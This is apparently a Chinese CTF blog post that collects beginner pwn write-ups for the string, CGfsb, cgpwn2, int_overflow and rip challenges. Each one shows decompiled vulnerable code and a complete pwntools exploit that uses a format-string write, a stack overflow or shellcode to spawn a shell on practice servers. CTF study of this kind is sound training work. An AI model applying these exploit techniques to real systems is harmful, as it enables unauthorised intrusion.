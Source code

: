 ```yaml
---
title: 新手pwn练习汇总
date: 2020-06-12 12:39:50
tags: 
- bin
categories:
- CTF
---
```


# string：

- 格式化字符串漏洞
- x64传参规则

## 抄来的原理

原理挺底层的，得认真看看
https://blog.csdn.net/qq_43394612/article/details/84900668


```cpp
    puts("A voice heard in your mind");
    puts("'Give me an address'");
    _isoc99_scanf("%ld", &address);//利用这个传一个地址进去
    puts("And, you wish is:");
    _isoc99_scanf("%s", &format); 
    puts("Your wish is");
    printf(&format); //存在格式化字符串漏洞 可以改变地址内的值
    puts("I hear it, I hear it....");
```

## exp：
```python
from pwn import *
context.arch='amd64' # 明确程序类型不同系统生成的shellcraft.sh()不同
io = process('./string')

io.recvuntil("secret[0] is ")
addr = int(io.recvuntil("\n")[:-1], 16)# 接收屏幕打印出来的地址

io.sendlineafter(" character's name be:",'cxk')
io.sendlineafter(" go?east or up?:",'east')
io.sendlineafter("go into there(1), or leave(0)?:",'1')
io.sendlineafter("'Give me an address'", str(int(addr)))# 将地址放入栈内

io.sendlineafter("you wish is:","%85c%7$n")
# 改变地址指向的值（即改第8个参数）

shellcode = asm(shellcraft.sh())# 将shellcode转成机械码
io.sendlineafter("USE YOU SPELL", shellcode)
io.interactive()
```
`85c%7$n`是改参数的其中一种方法

# CGfsb：
- 格式化字符串漏洞
- x86传参规则

```cpp
  memset(&s, 0, 0x64u);
  puts("please tell me your name:");
  read(0, &buf, 10u);
  puts("leave your message please:");
  fgets(&s, 100, stdin);
  printf("hello %s", &buf);//利用这个把 pwnme pwn掉
  puts("your message is:");
  printf(&s);
  if ( pwnme == 8 )
  {
    puts("you pwned me, here is your flag:\n");
    system("cat flag");
  }
```
## 错误的exp

```py
add = 0x0804A068

io.recvuntil("please tell me your name:")
payload = p32(add)

io.sendline(payload)

io.recvuntil("leave your message please:")

io.sendline(b'%8c%2$n')

io.interactive()
```
printf(a)才能用

## 正确的exp
```python
from pwn import *


io = remote("220.249.52.133",35348)
add = 0x0804A068

io.recvuntil("please tell me your name:")
io.sendline('cxk')

io.recvuntil("leave your message please:")

io.sendline(p32(0x0804A068) + b'%c%10$n')
# 调试一下可以看到这里的数据被原封不动放到了 esp 后面，按照 x86 的规律数一下可以看到 0x0804A068 在第十个参数的位置 ，在这里 p32(0x0804A068) 已经占了4个用于输出的位置还需要4个输出字符才能够将地址指向的参数pwn_me改成8
io.interactive()
```

# cgpwn2

构造payload打`return gets(&s);`

返回函数覆盖为

## exp:
```python
from pwn import *

r = remote("220.249.52.133", 59988)

system=0x08048420
r.recvuntil('name')
r.sendline("/bin/sh")
name=0x0804A080
payload = b'a' * (0x26+4) + p32(system)+p32(0)+p32(0x0804A080)
# 因为32位函数和参数中间是system的 返回地址用 p32(0)填充
r.sendline(payload)
#print(r.recv())

#print(r.recv())
r.interactive()

# 0804A024 /bin/sh
# 08048320 system
```
# int_overflow

- 利用小整型（int8）溢出绕过检测点
- 栈溢出改变程序流程

```cpp
char *__cdecl check_passwd(char *str)
{
  char *result; // eax
  char dest; // [esp+4h] [ebp-14h]
  unsigned __int8 v3; // [esp+Fh] [ebp-9h]

  v3 = strlen(str);//v3大于255后溢出
  if ( v3 <= 3u || v3 > 8u )
  {
    puts("Invalid Password");
    result = (char *)fflush(stdout);
  }
  else
  {
    puts("Success");
    fflush(stdout);
    result = strcpy(&dest, str);//覆盖dest 后的r
  }
  return result;
```
## exp：
```python
from pwn import *
#设置目标机的信息，用来建立远程链接，url或ip指明了主机，port设置端口
r = remote("220.249.52.133", 33284)
system=0x0804868B

r.sendlineafter("Your choice:", "1")

r.sendlineafter("your username:", "kk")

r.recvuntil("your passwd:")
payload = b'a' * (0x14+4) + p32(system) + 231*b'a'
#payload=payload.ljust(259,b'a')
print(len(payload))
r.sendline(payload)

r.recv()

r.interactive()
```

# rip

- 栈溢出
- 玄学问题

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+1h] [rbp-Fh]

  puts("please input");
  gets((__int64)&s, (__int64)argv);//打这里
  puts(&s);
  puts("ok,bye!!!");
  return 0;
}
```

中间会碰到一个玄学的问题:
http://blog.eonew.cn/archives/958
> 把源存储器内容值送入目的寄存器,当有m128时, 内存地址必须是16字节对齐的。
> XMMWORD旨在表示与m128相同的类型,刚好这里符合第二条。

就是说payload会导致栈的地址可以不是按0x10对齐的，会导致程序crash掉
这时改变payload的长度是解决方法之一
> 直接更改我们的payload长度，在栈溢出的时候栈的地址自然不同，然后将栈地址+1，如果不行的话，就继续增加，最多也就改16次就一定会遇到栈对齐的情况。
## exp
```python
from pwn import*
sh=remote("node3.buuoj.cn",28364)
payload=b'a'*23+p64(0x401016)+p64(0x401186)
sh.sendline(payload)
sh.interactive()
```
